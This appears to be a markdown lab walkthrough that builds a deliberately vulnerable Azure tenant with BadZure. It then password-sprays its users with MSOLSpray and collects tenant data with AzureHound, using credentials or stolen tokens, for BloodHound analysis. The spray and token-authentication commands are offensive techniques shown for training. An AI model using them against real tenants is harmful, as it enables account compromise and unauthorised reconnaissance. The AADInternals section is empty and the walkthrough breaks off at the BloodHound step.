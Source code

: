 
### References
* https://github.com/mvelazc0/BadZure/
* https://www.youtube.com/watch?v=7IdyU7tQgww

### Pre-Requisites
1. Deploy Azure PenTest VM
* https://github.com/davidokeyode/azure-cloudsec-practitioner/tree/main/pentest-vm-win
* https://davidokeyode.medium.com/azure-cloudsec-practitioner-series-1-deploying-an-azure-pentest-vm-f65adbc40edb

2. You are logged into the Azure PenTest VM

### Prepare the environment
1. Verify Dependencies
```
Get-Module Microsoft.Graph -ListAvailable
Get-Module Azure -ListAvailable
```

2.  Connect to Azure and Microsoft Graph
```
Connect-AzAccount
Connect-MgGraph
```

3. Import the BadZure Script
```
cd $env:SystemDrive\PentestTools\Azure\VulnerableEnv\BadZure
. ./Invoke-BadZure.ps1

Invoke-BadZure -Build -Password "W8&x2N78T0" -Verbose
```

3b. Enable MFA for some users (to be used to test MSOLSpray MFA detection later)
* Disable some user accounts
* Add non-existent user account to the file


4. Make note of the username and password for the three attack paths
![Attack Path Output](image.png)

5. Review populated users
```
ls
notepad users.txt
```

### Run MSOLSpray to simulate a password spray attack
1. Import the MSOLSpray module
```
cd $env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray
Import-Module .\MSOLSpray.ps1
```

2. Copy the users.txt file from the BadZure directory to the MSOLSpray directory
* This contains a list of users that will be targets for the password spray attack
```
Copy-Item -Path "$env:SystemDrive\PentestTools\Azure\VulnerableEnv\BadZure\users.txt" -Destination "$env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray"
```

3. Run MSOLSpray
```
Invoke-MSOLSpray -UserList .\users.txt -Password "PASSWORD_FROM_THE_ATTACK_PATH_OUTPUT" -Verbose -OutFile .\sprayresults.txt
```
** Note the non-existent user and the user with MFA configured

4. View the result
* Notice that the user with the password from the attack path output was compromised
```
notepad sprayresults.txt
```

### Run AzureHound to gather tenant information
* https://github.com/BloodHoundAD/AzureHound

1. Switch to the AzureHound directory
```
cd $env:SystemDrive\PentestTools\Azure\Attack\AzureHound
```

2. Collect Azure tenant data into a JSON file
* We can either authenticate using a username and password - **`-u username -p password`**
  * Use this option if a user cred is compromised and MFA is not detected
* OR we can authenticate using an acquired JSON Web Token (JWT) - **`-j`**, **`--jwt`**

* OR we can authenticate using a refresh token **`-r`**, **`--refresh-token`**
  * Use this option if MFA is detected for the user
  Use this option if a user device is compromised with an already authenticated user
  * 

```
./azurehound -u "USERNAME" -p "PASSWORD_FROM_THE_ATTACK_PATH_OUTPUT" list groups --tenant "TENANT_NAME_OR_TENANT_ID" -o azurehound-output.json

./azurehound -j "ey..." list users --tenant "contoso.onmicrosoft.com"
```


### AADInternals Info Check
```

```



### Analyze the output of AzureHound using BloodHound
* This identifies attack paths

1. Upload the output from AzureHound into BloodHound






















